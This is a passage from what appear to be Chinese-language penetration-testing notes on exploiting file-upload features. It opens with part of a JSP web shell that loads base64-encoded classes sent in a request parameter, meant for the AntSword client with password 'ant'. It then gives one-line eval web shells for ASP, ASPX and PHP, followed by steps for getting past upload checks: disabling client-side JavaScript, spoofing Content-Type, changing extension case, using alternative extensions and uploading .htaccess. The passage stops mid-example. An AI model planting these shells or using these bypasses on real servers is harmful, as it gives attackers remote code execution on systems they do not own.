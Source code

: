 ```jsp
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("ant");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>


<!-- 使用蚁剑连接，密码ant，编码选base64-->
```

asp : `<% eval request("lzx")%>`  

aspx: `<%@ Page Language="Jscript"%><%eval(Request.Item["lzx"],"unsafe");%>`  

php : 

```php
1. <?php @eval($_POST['lzx']);?>    //提供了一个代码执行的环境
2. <script language="php">@eval_r($_POST['pwd'])</script>    7.0以上		php无效
```
### **客户端js校验绕过**
- 修改或禁用js，或者抓包修改文件后缀。
-  判断方法，没有流量经过burpsuite就提示错误
### **服务器端校验绕过**
- **服务端对数据包的MIME进行检查！**
    - 文件头content-type字段校验（image/gif）
    - 配置Burp Suite代理进行抓包，将Content-Type修改为image/gif，或者其他允许的类型。
- **服务器端检测文件名后缀**
  - **黑名单检测**
    
    - **文件名大小写绕过**：使用Asp、PhP之类的文件名绕过黑名单检测
    - **名单列表绕过**：
        - 用黑名单里没有的名单进行攻击，asp asa cer aspx。
        - jsp jspx jspf
        - php3,phtml.phps.php5,pht,可能虽然上传成功了，能解析必须满足:  
            Apache的 httpd.conf 中有如下配置代码：
            `AddType application/x-httpd-php .php .phtml .phps .php5 .phtml`
    - **上传 .htaccess 伪静态文件**，  
    （适用于黑名单检测方式，黑名单中未限制.htaccess）  
    该文件仅在Apache平台上存在，IIS平台上不存在该文件，该文件默认开启，启用和关闭在httpd.conf文件中配置。  
    该文件的写法如下：
    用伪静态需要保证：①mod_rewrite模块开启；②目录设置是AllowOverride All；
        ```
        <FilesMatch "liudehua"> 
        